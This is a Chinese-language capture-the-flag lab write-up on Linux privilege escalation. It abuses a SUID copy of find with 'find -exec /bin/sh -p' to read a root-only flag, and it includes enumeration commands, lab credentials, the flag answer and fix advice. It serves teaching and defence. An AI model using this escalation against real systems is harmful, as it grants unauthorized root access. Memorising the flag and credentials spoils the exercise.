



# 提权 · Linux 第 1 题：SUID 的“老实人”

> 方向：Linux 提权 / SUID 二进制滥用　难度：★★☆☆☆（2/5）
> 镜像：`priv-lx01-suid-find:latest`　端口：`22001`　账户：`player / Player@2026`
> 环境：Ubuntu 24.04 + OpenSSH 9.6 + Docker 28.5.1，实机构建与验证于 2026-11-18
> 配套幻灯片：`Linux提权-1.pptx`（按 `解题PPT模板.pptx` 生成，6 页）

---

## 一、相关知识介绍

### 1. SUID 位是什么

Linux 文件的权限位里，属主执行位上的 `s` 就是 **SUID（Set User ID）**：

```
-rwsr-xr-x 1 root root 204264 find
   ^
   └─ s 而不是 x，表示这个文件带 SUID
```

普通程序运行时，进程的有效身份（euid）等于启动它的用户；带 SUID 且属主是 root 的程序，
无论谁启动它，进程的 **euid 都会变成 0（root）**。

进程身份有两个概念，必须分清：

| 概念 | 含义 |
|---|---|
| `uid`（真实用户 ID） | 你到底是谁，`whoami` 看的就是它 |
| `euid`（有效用户 ID） | 你**此刻**以什么身份在操作，权限检查看的是它 |

SUID 程序只改变 euid，不改变 uid。所以 `id` 的输出会出现
`uid=1001(player) ... euid=0(root)` 这种“两个身份”的形态。

### 2. 为什么有时候“SUID 拿到 root 又丢了”

Linux 的 shell（bash、sh）在启动时如果发现 **euid ≠ uid**，会主动把 euid 降回 uid。
这是 shell 的安全设计：防止有人靠一个 SUID 的 shell 白拿 root。

`bash` / `sh` 的 `-p`（privileged）参数就是关闭这个降权行为：

```bash
/bin/sh -p      # 保留 euid，不降权
```

所以 GTFOBins 上所有“SUID + shell 逃逸”的写法都会带 `-p`，这是解题的关键细节。

### 3. SUID 程序为什么能被“滥用”

SUID 程序本身不是漏洞，问题在于**它具备执行其他命令的能力**。
`find` 的 `-exec` 参数可以执行任意命令，而这条命令是由 euid=0 的 `find` 进程 fork 出来的，
于是命令也就继承了 root 身份。

GTFOBins 把这类程序归纳为“SUID 可利用”清单：`find`、`vim`、`less`、`nmap`、`env`、
`awk`、`tar`、`nano`、`cp`、`gdb`…… 共同点都是**能起 shell 或能执行外部命令**。

### 4. 如何发现 SUID 文件

```bash
# 全盘找 SUID
find / -perm -4000 -type f 2>/dev/null

# 看属主和是否是“非系统自带”
ls -la /usr/local/bin/

# 与包管理器记录的原始状态对比，找出被人为改动/新放进去的文件
dpkg -V 2>/dev/null

# 按 SUID 位 + 属主 root 组合排除掉系统自带的
find / -user root -perm -4000 -type f -exec ls -ldb {} \; 2>/dev/null
```

`/usr/local/` 是“运维自己装的软件”目录，系统包管理不会往这里放东西，
所以 `find / -perm -4000` 的结果里，**路径在 `/usr/local/` 下的基本都是人为放进去的**。

---

## 二、题目分析

### 1. 场景

你登录到一台 Web 运维工作站的低权账户 `player`。运维说昨天有人把网站根目录 `/srv/www`
搞乱了，但你只有查看权限。站长的排查工具最近还在用，其中一个“专门找文件的小工具”
是 root 放的。

登录后 motd 会给出提示：

```
Welcome to the ops workstation (lx01).

Your mission: find out who messed up the web root /srv/www,
then escalate to root and read /flag.txt

Account: player   Hint level: easy   Est. time: 10-15 min
```

### 2. 环境事实

| 路径 | 权限 | 说明 |
|---|---|---|
| `/flag.txt` | `-r-------- root root` | 构建时由题目目录的 `flag.txt` 写入，每题固定 |
| `/usr/local/bin/find` | `root:root 4755` | **唯一提权面**：SUID 副本，修改时间伪装成 2024-03-11 |
| `/usr/local/bin/healthcheck` | `root:root 4755` | **干扰项**：SUID shell 脚本，内核不认脚本的 SUID |
| `/srv/www/uploads/access.log` | `root:root 0644` | 场景素材 |
| `/etc/sudoers.d/` | 只有 `README` | `player` 无任何 sudo 授权 |

### 3. 信息收集（本次实测输出）

```bash
$ id
uid=1001(player) gid=1001(player) groups=1001(player)

$ ls -la /usr/local/bin/
total 220
drwxr-xr-x 1 root root   4096 Nov 18 06:08 .
drwxr-xr-x 1 root root   4096 Nov 10 04:28 ..
-rwsr-xr-x 1 root root 204264 Mar 11  2024 find
-rwsr-xr-x 1 root root     33 Nov 18 06:06 healthcheck

$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/sudo
/usr/local/bin/healthcheck     <-- 人为放入
/usr/local/bin/find            <-- 人为放入
```

判定逻辑：

1. 列表里绝大多数是 Ubuntu 自带（`su`、`mount`、`passwd`……），属主 root、版本正常，属于基线；
2. `/usr/local/bin/` 下那两个不在任何 Debian 包里，是“运维放进去的”；
3. 一个 `find`（204 KB 的二进制副本），一个 33 字节的 `healthcheck` 脚本。

### 4. 干扰项为什么不是解

`healthcheck` 是 shell 脚本，虽然打着 `s` 位，但 **Linux 内核忽略脚本解释执行时的 SUID**：

```bash
$ /usr/local/bin/healthcheck
health check ok

$ /usr/local/bin/healthcheck -c 'id' 2>&1; id
health check ok
uid=1001(player) gid=1001(player) groups=1001(player)     # 依然是自己
```

这一项的教学价值：`find -perm -4000` 列表**不能直接照抄当结论**，
要区分“二进制”和“脚本”，脚本的 SUID 位是假象（历史上只有少数内核/DOS 语义支持）。

另外 `sudo` 也不可用：

```bash
$ echo 'Player@2026' | sudo -S id
[sudo] password for player: player is not in the sudoers file.
```

---

## 三、解题步骤

### 步骤 1：登录

```bash
ssh -p 22001 player@192.168.204.178
# 密码：Player@2026
```



### 步骤 2：信息收集，定位异常 SUID

```bash
id
ls -la /usr/local/bin/
find / -perm -4000 -type f 2>/dev/null | grep /usr/local
```

结果里 `/usr/local/bin/find` 是 `-rwsr-xr-x root root`，一个“找文件的小工具”带着 SUID，
而且不在任何系统包里。



### 步骤 3：确认能力边界（可选，教学用）

先验证“不带 -p 会丢身份”这一课上知识点：

```bash
$ /usr/local/bin/find /tmp -maxdepth 0 -exec /bin/sh -c 'id' \;
uid=1001(player) gid=1001(player) groups=1001(player)      # sh 主动降权，回到 player
```

SUID 生效了（find 自己是 euid=0），但 `sh` 启动时发现 euid≠uid，把身份还回去了。
**这就是很多同学“明明 SUID 了却拿不到 root”的原因。**

### 步骤 4：带 `-p` 起 shell，读取 flag

```bash
/usr/local/bin/find /tmp -maxdepth 0 -exec /bin/sh -p -c 'id; cat /flag.txt' \;
```

```bash
$ /usr/local/bin/find /tmp -maxdepth 0 -exec /bin/sh -p -c 'id; cat /flag.txt' \;
uid=1001(player) gid=1001(player) euid=0(root) groups=1001(player)
Ly_Flag{pmam7uzn}
```



交互式写法（等价，进入 shell 后自己敲命令）：

```bash
$ /usr/local/bin/find . -exec /bin/sh -p \; -quit
# uid=1001(player) gid=1001(player) euid=0(root) ...
# cat /flag.txt
# Ly_Flag{pmam7uzn}
```

### 步骤 5：提交

把 `Ly_Flag{pmam7uzn}` 提交到平台。
（每道题的环境为独立构建，flag 以实际容器内 `/flag.txt` 为准，本文为 2026-11-18 验证实例。）

---

## 四、验证记录（本次实测）

镜像在 Ubuntu 24.04（Docker 28.5.1）上构建，`docker run -d -p 22001:22` 启动，
以 `player` 通过 SSH 实测：

| 方向 | 命令 | 预期 | 实测结果 |
|---|---|---|---|
| 身份基线 | `id` | uid=1001(player) | ✅ `uid=1001(player) gid=1001(player)` |
| 直接读 flag | `cat /flag.txt` | 拒绝 | ✅ `Permission denied` |
| sudo | `sudo -S id` | 拒绝 | ✅ `player is not in the sudoers file` |
| 干扰项 | `/usr/local/bin/healthcheck` | 不提权 | ✅ 仍为 player（脚本 SUID 无效） |
| 负向 | `find -exec /bin/sh -c 'id'` | 丢 root | ✅ `uid=1001(player)` |
| **正向** | `find -exec /bin/sh -p -c 'id; cat /flag.txt'` | 得 root + flag | ✅ `euid=0(root)` + `Ly_Flag{pmam7uzn}` |

结论：**唯一提权面成立，唯一解成立，无第二解、无意外逃逸面。**

---

## 五、教学要点与修复建议

### 教学要点

1. `s` 位在属主执行位上，代表 SUID；`id` 里看 `euid`，不要只看 `uid` 就下结论；
2. SUID 只是“给了 root 身份”，还需要一个**能执行命令的载体**（`-exec`、`!sh`、`--checkpoint-action`）；
3. shell 的主动降权机制是常见“卡点”，`-p` 是破解它的钥匙；
4. 找 SUID 不能只看 `find -perm -4000`，要结合路径（`/usr/local`、`/opt`、`/home`）和 `dpkg -V` 判断“谁放进来的”；
5. 脚本带 SUID 是假象。

### 修复建议

```bash
# 1. 清掉多余的 SUID 副本，只保留系统自带
chmod 0755 /usr/local/bin/find

# 2. 需要给运维用的 find，用普通权限 + 受限目录
#    或者在 sudoers 里精确授权某个只读命令

# 3. 定期核对 SUID 基线
find / -user root -perm -4000 -type f -printf '%p\t%TY-%Tm-%Td\n' 2>/dev/null

# 4. 用 AIDE / dpkg -V 监控 /usr/local 与 /usr/bin 的权限变化
```

### 部署信息（本次构建）

| 项 | 值 |
|---|---|
| 构建机 | 192.168.204.178（Ubuntu 24.04，Docker 28.5.1） |
| 镜像 | `priv-lx01-suid-find:latest`，镜像内容 373 MB（基础层 `priv-base:latest`，同尺寸） |
| 启动 | `docker run -d --name lx01 -p 22001:22 priv-lx01-suid-find:latest` |
| 导出 | `docker save priv-lx01-suid-find:latest -o lx01-suid-find.tar`（纯 tar 未压缩，363 MB，sha256 `e584ff90c0dd4991ed63b15abe5fb6dede07bb04dcaeb5017504b8b8c2003f4b`） |
| 本地 | `_images/lx01-suid-find.tar`，`docker load -i lx01-suid-find.tar` 即可复现 |
